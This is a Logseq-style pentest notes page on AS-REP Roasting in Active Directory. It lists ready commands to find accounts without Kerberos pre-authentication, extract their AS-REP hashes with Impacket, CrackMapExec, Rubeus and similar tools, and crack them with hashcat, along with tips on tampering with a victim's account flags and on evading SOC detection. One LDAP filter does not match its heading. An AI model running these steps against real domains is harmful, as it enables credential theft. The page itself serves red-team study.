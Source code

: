alias:: ASREPRoast
public:: true

- In case the [Kerberos Pre-Authentication](((655b158a-a666-41e0-8076-e59942a7bb20))) is not enabled for one or more domain users, an [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38))) can be forged without knowing their password (or the hash) and sent to KDC on their behalf.
- Once the [AS-REP](((655b1795-7a37-4e7f-b428-6c9a34ab2cbf))) is returned from the domain controller, [the encrypted part of the response](1. ) can be brute-forced offline to retrieve the user password.
- #+BEGIN_NOTE
  Please note that in order to execute most of the following commands you need be able to query the DC. Hence, you need access to a valid domain user.
  #+END_NOTE
	- Retrieve the list of users with [Kerberos Pre-Authentication disabled](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainUser/).
		- From Windows
			- With PowerView
			  id:: 655cf631-e9b4-4a1f-99d0-45c801c69f8c
			  ```powershell
			  Get-DomainUser -KerberosPreuthNotRequired -verbose
			  ```
			  ```powershell
			  # Users with Pre-Authentication disabled AND without expired passwords
			  Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED
			  ```
			- With LDAP
			  ```powershell
			  ldapsearch -LLL -x -H ldap://dc01.hpbank.local -D "da@hpbank.local" -w 'P@ssw0rd' -b dc=hpbank,dc=local "(&(&(servicePrincipalName=*)(UserAccountControl:1.2.840.113556.1.4.803:=512))(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" sAMAccountName userPrincipalName memberOf
			  ```
			- With pure Powershell
			  ```powershell
			  $root = [ADSI]"LDAP://dc=hpbank,dc=local"
			  $search = new-Object System.DirectoryServices.DirectorySearcher($root)
			  $search.Filter ="(&(objectCategory=User)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
			  $search.FindAll()
			  ```
			- With Active Directory module
			  ```powershell
			  Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
			  ```
	- From Linux via [[Impacket GetNPUsers]]
		- id:: 5971e61f-2ed6-4dd2-91a6-1752dfb51de7
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
		  ```
- id:: 655cf4a9-95ae-4eb8-be69-cd1fb9b251c6
  #+BEGIN_TIP
  If you have **GenericWrite** or **GenericAll** rights over a target user, you can maliciously [modify their userAccountControl](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) to [not require preauth](((655b158a-a666-41e0-8076-e59942a7bb20))), use [[AS-REP Roasting]] , and then reset the value.
  #+END_TIP
- Retrieve ASREPRoast hashes
	- From Linux
		- With [[Impacket GetNPUsers]]
			- id:: 655cf20b-a6e7-4003-8049-8d922905d0b1
			  ```bash
			  impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
			  ```
				- `-request` - is specified to request the [TGT](((655a4269-21dc-4947-a21d-5c89e404b561))).
				- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
				- `-outputfile hashes.asreproast` - file to save captured hashes.
					- Default output is for [[Hashcat]]. The generate [[JTR]] compatible hash use `--format john`
			- With [[CrackMapExec]]
			  id:: 65673473-d9f8-42e7-a1ba-c234679b312d
				- ```bash
				  crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast hashes.asreproast --KdcHost $KeyDistributionCenter
				  ```
			- With [Kerberoast]([[Kerberoast tool]])
			  id:: 6567356f-171b-4626-a6ed-f9551a966b85
				- This tool asks for aes128/256 encrypted tickets. Making the crack process way harder, but also decreasing the detection risk.
				- ```bash
				  python3 -m kerberoast asreproast -r hpbank.local -u da 192.168.0.122 -e 18
				  ```
				- To crack it with [[JTR]] it's necessary to change the format for the output to `$krb5asrep$18$<SALT>$<FIRST_BYTES>$<LAST_12_BYTES>`
	- From Windows
		- With [[Rubeus]]
			- id:: 655cf178-e37d-4ab0-9e2b-e16c2ff7c94f
			  ```powershell
			  .\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.asreproast [/user:username]
			  ```
				- By default only users that have the property [*Do not require Kerberos preauthentication*](((655b158a-a666-41e0-8076-e59942a7bb20))) set are processed. For the full `asreproast` command usage [check here](https://github.com/GhostPack/Rubeus#asreproast).
				- `/format:hashcat` - Generate [[Hashcat]] compatible hash, the default output is for [[JTR]].
				- `/outfile:` - file to save captured hashes.
	- #+BEGIN_CAUTION
	  All tools, but [[Kerberoast tool]] ask for RC4 encrypted tickets that can be (and probably will be) detected by SOC ([Sigma Rule](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win_security_susp_rc4_kerberos.yml)).
	  #+END_CAUTION
- Crack **Kerberos 5 AS-REP** hashes via [[Hashcat]] with the [`-m 18200`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655cd6cd-968a-4756-b77f-35c47110ad33
  ```bash
  sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 18200` - specifies the correct mode
	- `hashes.asreproast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali